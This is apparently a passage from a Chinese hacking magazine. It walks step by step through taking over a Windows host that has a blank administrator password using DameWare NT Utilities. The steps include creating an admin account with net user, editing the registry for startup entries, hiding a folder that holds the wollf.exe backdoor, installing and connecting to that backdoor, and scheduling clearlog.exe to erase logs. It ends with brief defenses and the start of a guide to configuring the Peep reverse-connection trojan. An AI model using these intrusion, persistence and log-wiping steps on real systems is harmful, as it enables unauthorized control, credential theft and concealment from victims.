

填入 X-scan 扫到的 IP 后单击 OK，看到了么？在填入的 IP 下面出现的树状菜单，如图10所示。



这就是 Dame Ware NT Utilities 的全部工具了，其功能强大得令人瞠目结舌，你想做什么事情，那就去做吧。可以这么说，只有你没有想到的，没有这个软件不提供的功能（当然硬件毁坏除外啦）。

说做就做，Let’s do it。从树状菜单中找到 Remote Command。打开它后，双击 RCmd View，键入用户名 administrator，密码为空，RCmd 登录成功并单击确定。在远程主机上安装 NT Utilities，然后就键入你熟悉的 DOS 命令吧（可别 format 人家啊，要有点职业道德噢）。为了演示 Rcmd 的功能，我用 net user 和 net localgroup administrators 命令建立了一个有管理员权限的用户（其实不用这么复杂地敲 DOS 命令就可以建立用户，后面将介绍），如图11所示。

既然我们已经在远程主机上安了家，并且有了只属于自己的管理员账号，那么我们下一步该做什么呢？别高兴得太早，按照……惯例应该去查看一下远程主机上的进程，这样我们才安全些，以免被人家发现你，然后黑吃黑啊！



> **小提示** 在做什么之前最好在远程主机上 `netstat -n`，查看一下是否有别的入侵者，如果有的话，大家打个招呼啊。:)





好的，让我们来看一下远程主机的进程吧，在树状菜单里找到 Processes，双击后就会看到远程主机的进程列表（包括它的 CPU 使用率），如图 12 所示。

对进程进行操作就像在本地机一样，可以点击下面的那几个图标对进程进行操作，也可以在相应进程上用鼠标右键进行操作，我结束了它上面的 CMD 进程，如图 13 所示。

看来远程主机没有什么对我有威胁的进程，并且通过 DameWare Mini Remote Control 屏幕监视看到他还在津津有味地玩 CS 呢。

> **注意** 通过上面的过程，我们已经完全控制了远程主机，即我们能够决定远程主机应该执行什么命令，不应该执行什么命令。我们所要做的就是杀掉不应该执行的，打开应该执行的。

### 五、修改配置、安装服务、窃取文件

找到树状菜单下面的 Registry，双击打开远程主机的注册表，你就可以修改它的注册表了。例如，可以在里面加入启动项等等，如图 14 所示。





接下来，打开树状菜单中 Services，双击 Services View，可以在这里打开或关闭它上面的服务，如果他哪个服务还没有装，那么好心一点，给他装上吧（嘿嘿），如图 15 所示。

点击 Install Services，然后出现如图 16 所示界面，在本地找到服务安装程序就可以给他装上了。Remove Services 的用法一样，不多做介绍了。





下面说说对远程主机文件的操作。双击树状菜单中的 Shares，如图 17 所示，打开后，就像是本地的资源管理器一样，我在他的 WINNT\SYSTEM32 中建立一个文件夹“SYSADMIN”，然后把本地文件 clearlog.exe（用于擦脚印）、wollf.exe（留后门用）复制、粘贴到刚刚建好的文件夹里（DameWare 上面对远程文件操作和本地可以互通），然后把 SYSADMIN 设置为隐藏。其它相关的 DameWare 操作和这些类似，不多做介绍。

### 六、留后门、擦脚印

用 Rcmd 进入 WINNT\SYSTEM32\SYSADMIN 中，执行 wollf.exe -install。Wollf 也是一个不错的入侵工具，只要对方安装后，可以在本地用命令 wollf -connect ip 7914 进入远程主机并直接获得管理员权限，并且 Wollf 简直就是一个微操作系统，可以记录键盘，窃听流经远程主机网卡的 HTTP/FTP/POP3/SMTP 的密码。这样就不怕远程主机通过修改管理员空密码来避开我们了。

最后一个要做的任务也就是擦脚印，我们用计划任务来添加擦脚印程序 clearlog.exe，让它在我们断开连接后执行，如图 18 所示。



好了，该和他断开了，不过最后还是吓唬他一下吧，发个 MESSAGE 给他……

### 七、解决方案

通过以上的介绍，大家知道了管理员权限都能做什么了吧？是的，除了硬件，与软件有关的它都能做。看来问题挺严重的，如果一个系统的管理员权限被盗。

> **小技巧** 可以通过暴力破解、系统漏洞、社交手段、网络监听、物理接触等手段获得管理员权限。

那么他所做的一切都将被一览无余。难道就没有解决的办法么？由于以上入侵过程都是基于 IPC$ 和管理员权限的，所以可以这样解决。

- 1、管理员密码应该足够健壮，并且管理员能够保证他所管辖域里的用户也有足够健壮的密码。设置域安全策略中的密码复杂度策略，保证管理员密码长度在 10 位以上（具体参见 WIN2K 教程）。
- 2、修补系统漏洞，如输入法漏洞、IIS 漏洞等等（详见 www.xfocus.net）。
- 3、如果没有特殊需要，应该禁用主机的 Server、远程注册表、远程进程调用（RPC）等一系列与 Remote 相关的服务，即使被黑客获得了管理员权限，也不让他远程登录和执行远程进程调用。
- 4、关掉系统默认共享：ipc$、admin$、c$、d$ 等等，关掉 netbios、139 端口（《黑客X档案》前几期有介绍）。
- 5、管理员要对日志做定期的分析（可以通过编写特定的日志分析程序）、备份。

> **小技巧** 对于十分重要的系统日志甚至要用只写一次的媒体如光盘来记录。

- 6、最重要的、也最有效的方法就是安装防火墙，一般的黑客对防火墙是望而生畏的。

> **小知识** 防火墙一般分为包过滤、应用级网关、代理服务器。


## 台湾第一匹反弹端口木马

## peep

小鱼儿

Peep 是台湾朋友 cookie 开发的一匹反弹端口木马，2003 年后我收到了它的最新版本，也就是现在的 peep2.01。这个木马的 1.0 版一年多以前就出来了，当时它是世界上第一匹能够查看局域网屏幕的木马（灰鸽子后来也搞出来了这个功能）。那么现在的 peep2.01 版究竟变成了什么样呢？下面我将给大家介绍一下。

解开 peep 的压缩包，可以看到里面有四个文件，客户端 PeepBrowser.exe，服务端 Peep.exe，PCMusic.txt，Readme.txt。这四个文件的作用我简单说明一下（主要是针对木马菜鸟们）。

> **文件说明**
- PeepBrowser.exe：客户端就是控制台，你将用它发布命令操作远程主机。
- Peep.exe：服务端一向都是危险的，因为它是给被控制者运行的，谁运行了，谁就是被控制者。
- PCMusic.txt：这个是作者编的几首曲子^^，因为 peep 是可以对远程电脑发声的，届时可以派上点用场。
- Readme.txt：作者写的说明文件，说实话，不太好懂，可能是海峡两岸有些专业术语不一样吧，另外，思维方式也有很大不同。

Peep 这个木马仍然使用了利用主页空间的传统方式，但具体方法却比较复杂，为什么这么说，待会讲到使用配置时我会解释的。它除了继承传统反弹木马的技术，另外也有一些创新的地方，比如多伺服器的管理方式我就认为很实用，因为这个木马像“网络神偷”一样是利用主页空间的，但“网络神偷”一次只能设置一个主页空间，peep 同时可以设置管理多个主页空间的服务端，也就是说可以管理多个不同配置的服务端。下面我讲讲 peep 的具体配置。

### 一、Peep 客户端配置

在配置客户端之前，我们要先准备一个主页空间，这个空间可以是有 FTP 功能的，也可以是没有的。这点就大大增加大家使用 peep 的可能，因为找到一个 FTP 主页空间现在不是很容易的事，但很多网站却提供 HTTP 上传管理的主页空间。

